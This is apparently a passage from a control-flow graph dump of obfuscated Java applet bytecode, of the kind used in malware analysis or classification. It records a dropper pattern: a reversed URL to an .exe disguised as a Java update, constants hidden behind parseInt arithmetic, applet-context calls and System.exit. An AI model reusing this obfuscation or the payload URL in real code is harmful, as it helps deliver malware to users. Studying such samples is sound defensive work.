    "push \"]\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "fieldget <YWyRqgp: java.lang.String[] IEK>"
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] IEK>";
    "fieldget <YWyRqgp: java.lang.String[] IEK>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"exe.etadpuavaj/gnikcarTbeW/moc.spu-symppawww.kcart//:ptth\""
    "dup1.r"->"push \"exe.etadpuavaj/gnikcarTbeW/moc.spu-symppawww.kcart//:ptth\"";
    "push \"exe.etadpuavaj/gnikcarTbeW/moc.spu-symppawww.kcart//:ptth\""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <YWyRqgp: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <YWyRqgp: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <YWyRqgp: java.applet.AppletContext getAppletContext()>"->"load.r r0";
    "virtualinvoke <YWyRqgp: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <YWyRqgp: java.net.URL getDocumentBase()>";
    "virtualinvoke <YWyRqgp: boolean IFK(java.lang.String,java.lang.String,boolean,java.applet.AppletContext,java.net.URL)>"
    "virtualinvoke <YWyRqgp: java.net.URL getDocumentBase()>"->"virtualinvoke <YWyRqgp: boolean IFK(java.lang.String,java.lang.String,boolean,java.applet.AppletContext,java.net.URL)>";
    "virtualinvoke <YWyRqgp: boolean IFK(java.lang.String,java.lang.String,boolean,java.applet.AppletContext,java.net.URL)>"->"push 1";
    "ifcmpne.b goto return"
    "push 1"->"ifcmpne.b goto return";
    "ifcmpne.b goto return"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: int BBB>";
    "fieldget <YWyRqgp: int BBB>"->"push 1";
    "push 1"->"add.i";
    "fieldput <YWyRqgp: int BBB>"
    "add.i"->"fieldput <YWyRqgp: int BBB>";
    "inc.i i150 1"
    "fieldput <YWyRqgp: int BBB>"->"inc.i i150 1";
    "goto load.i i150"
    "inc.i i150 1"->"goto load.i i150";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: int BBB>";
    "fieldget <YWyRqgp: int BBB>"->"arrayread.r";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "arrayread.r"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r109";
}
